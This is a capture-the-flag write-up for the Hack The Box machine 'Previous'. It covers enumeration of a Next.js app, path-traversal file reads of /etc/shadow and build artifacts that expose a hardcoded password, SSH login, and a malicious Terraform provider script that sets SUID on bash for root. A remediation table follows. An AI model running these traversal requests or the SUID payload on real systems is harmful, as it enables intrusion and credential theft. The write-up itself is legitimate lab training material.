# HTB Previous — Full Writeup

**Machine:** Previous | **OS:** Linux | **Difficulty:** Medium  
**IP:** 10.10.11.83 | **Hostname:** previous.htb

---

## 1. Setup

Connected to HTB via OpenVPN and mapped the target IP to the hostname:

```bash
echo "10.10.11.83 previous.htb" >> /etc/hosts
```

Confirmed reachability:

```bash
ping previous.htb
```





---

## 2. Reconnaissance

### 2.1 Port Scan — Nmap

```bash
nmap -sC -sV -oN nmap_initial.txt 10.10.11.83
```

**Results:** Two open ports:
- Port 22 — SSH (OpenSSH)
- Port 80 — HTTP (Next.js web application)



Only two services exposed — attack surface was narrow. Focus shifted to the web application.

---

## 3. Web Enumeration

### 3.1 Initial Visit

Browsed to `http://previous.htb` — login page, no registration or guest access.



### 3.2 API Endpoint Discovery — Dirsearch

Ran dirsearch with a bypass header to get around Next.js middleware:

```bash
pip install dirsearch

dirsearch -u http://previous.htb -H "next-action: 1" -H "next-action: 1" \
  -H "next-action: 1" -H "next-action: 1" -H "next-action: 1"
```





Discovered: `/api/download` endpoint.

---

## 4. Local File Inclusion (LFI)

### 4.1 Parameter Fuzzing — FFUF

```bash
ffuf -u "http://previous.htb/api/download?FUZZ=test" \
  -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt \
  -fs [default_size]
```



`example` parameter produced a different response size — confirmed functional.

### 4.2 Directory Traversal Test

```bash
curl "http://previous.htb/api/download?example=../../../../etc/passwd"
```



LFI confirmed — arbitrary file read via path traversal.

### 4.3 Reading Sensitive Files

```bash
# Read sensitive system files
curl "http://previous.htb/api/download?example=../../../../etc/shadow"
```



### 4.4 Dump Process Environment

```bash
curl "http://previous.htb/api/download?example=../../../../proc/self/environ"
```



Revealed internal paths, Next.js version, and service context.

---

## 5. Next.js Build Artifact Extraction

### 5.1 Install jq and Enumerate Dynamic Routes

```bash
apt install jq

curl "http://previous.htb/api/download?example=../../../../.next/server/pages-manifest.json" | jq .
```









Revealed `/api/auth` — authentication handler route.

### 5.2 Extract Credentials from Auth Handler

```bash
curl "http://previous.htb/api/download?example=../../../../.next/server/chunks/[auth_chunk].js"
```



**Credentials recovered:**
```
Username: jeremy
Password: MyNameIsJeremyAndILovePancakes
```

---

## 6. Authentication and Initial Foothold

### 6.1 Login to Web App





### 6.2 SSH Access

```bash
ssh jeremy@10.10.11.83
# Password: MyNameIsJeremyAndILovePancakes
```





### 6.3 User Flag

```bash
cat ~/user.txt
```



User flag ✅

---

## 7. Privilege Escalation — Terraform Provider Hijack

### 7.1 Inspect Privesc Folder

```bash
ls /opt/examples/
cat /opt/examples/main.tf
```



Found a Terraform configuration referencing a custom provider — provider binary path was controllable.

### 7.2 Create Malicious Provider Binary

```bash
cat > /tmp/terraform-provider-fake << 'PAYLOAD'
#!/bin/bash
chmod u+s /bin/bash
PAYLOAD

chmod +x /tmp/terraform-provider-fake
```



### 7.3 Execute Terraform and Spawn Root Shell

```bash
cd /opt/examples
terraform init && terraform apply

# Check SUID bit set
ls -la /bin/bash

# Spawn root shell
/bin/bash -p
whoami  # root
```





Root flag ✅ — Machine fully compromised.

---

## 8. Remediation

| Finding | Recommendation |
|---------|---------------|
| LFI via `/api/download` | Validate and sanitise all file path inputs. Use an allowlist of permitted files only. |
| Credentials in Next.js build artifacts | Never embed credentials in source code. Use runtime environment variables. |
| Terraform provider path misconfiguration | Restrict write access to provider directories. Validate binary integrity with checksums. Run Terraform as non-privileged user. |
| Credential reuse across services | Enforce unique credentials per service. Implement MFA on SSH where possible. |

---

## 9. Flags

| Flag | Status |
|------|--------|
| User (jeremy) | ✅ Obtained |
| Root | ✅ Obtained |

---

